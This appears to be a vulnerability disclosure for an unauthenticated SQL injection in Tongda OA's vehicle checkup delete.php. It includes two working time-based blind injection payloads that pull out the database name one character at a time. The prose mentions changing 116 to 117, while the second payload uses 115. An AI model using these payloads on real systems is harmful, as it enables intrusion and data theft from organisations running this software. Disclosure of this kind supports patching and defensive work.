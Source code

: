Unauthorized SQL injection vulnerability exists in Tongda OA

version:Versions below v11.10 and v2017

Route: general/vehicle/checkup/delete.php

There are injected parameters: $VU_ID

The code here is very concise. When $VU_ID is not empty, the parameters are directly spliced ​​into the SQL statement. Since the brackets are closed here, there is a bypass.

![image](https://github.com/T1ANGzy/cve/assets/149646928/f281e1b8-fc35-4bd5-9fe7-0ca86099f3d3)

2.Payload
We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

```1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1```
![image](https://github.com/T1ANGzy/cve/assets/149646928/ebc6365b-5289-4893-ab30-8a301d24a2fd)

And when we change 116 to 117, there will be no delay, indicating the existence of SQL injection.

```1)%20and%20(substr(DATABASE(),1,1))=char(115)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1```

![image](https://github.com/T1ANGzy/cve/assets/149646928/fcd821af-ad44-4b66-981a-de91238dd719)


